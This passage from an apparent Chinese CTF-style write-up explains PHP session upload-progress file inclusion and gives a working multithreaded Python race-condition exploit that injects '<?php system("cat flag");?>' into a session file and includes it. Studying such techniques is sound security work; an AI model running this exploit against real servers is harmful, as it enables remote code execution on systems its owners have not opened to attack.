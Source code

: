 >存储路径知道了，但是由于代码中没有session_start()函数，无法创建出session文件；其实如果配置项session.auto_start=On 是打开的，那么PHP在接收请求的时候便会自动化Session，不再需要执行该函数，但默认都是关闭的；在session中还有一个默认选项，便是上面提到的session.use_strict_mode默认值是0，用户可以自己定义SessionID

```php
Cookie中设置：
PHPSESSID = H3rmesk1t
PHP便会在服务器上创建一个文件(默认路径)
/tmp/sess_H3rmesk1t

即使此时用户没有初始化Session，PHP也会自动初始化Session
并产生一个键值，这个键值由ini.get("session.upload_progress.prefix")+我们构造的session.upload_progress.name值组成，最后被写入sess_文件里
```

还有一个问题没有解决，默认配置session.upload_progress.cleanup = on导致文件上传后，session文件内容会立即被清空，所以这里就需要去使用多线程同时进行写和读，进行条件竞争，在session文件清除前进行包含利用

```python
import requests
import io
import threading

url = 'http://xxx.xxx.xx.xx:80/H3rmesk1t/demo.php'
sessID = 'H3rmesk1t'

def write(session):
    #判断event的标志是否为True
    while event.isSet():
        #上传文件要大一点,更有利于条件竞争
        f = io.BytesIO(b'H3rmesk1t' * 1024 * 50)
        reponse = session.post(
            url,
            cookies={'PHPSESSID': sessID},
            data={'PHP_SESSION_UPLOAD_PROGRESS':'<?php system("cat flag");?>'},
            files={'file':('text.txt',f)}
        )
def read(session):
    while event.isSet():
        reponse = session.get(url + '?file=/phpstudy/phpstudy_x64/phpstudy_pro/Extensions/tmp/sess_{}'.format(sessID))
        if 'D1no' in reponse.text:
            print(reponse.text)
            #将event的标志设置为False，调用wait方法的所有线程将被阻塞；
            event.clear()
        else:
            print('[*]continued')

if __name__ == '__main__':
    #通过threading.Event()可以创建一个事件管理标志，该标志（event）默认为False
    event = threading.Event()
    #将event的标志设置为True，调用wait方法的所有线程将被唤醒；
    event.set()
    #会话机制(Session）在PHP 中用于保持用户连续访问Web应用时的相关数据
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(1,30):
            threading.Thread(target=read, args=(session,)).start()
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527175151787.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
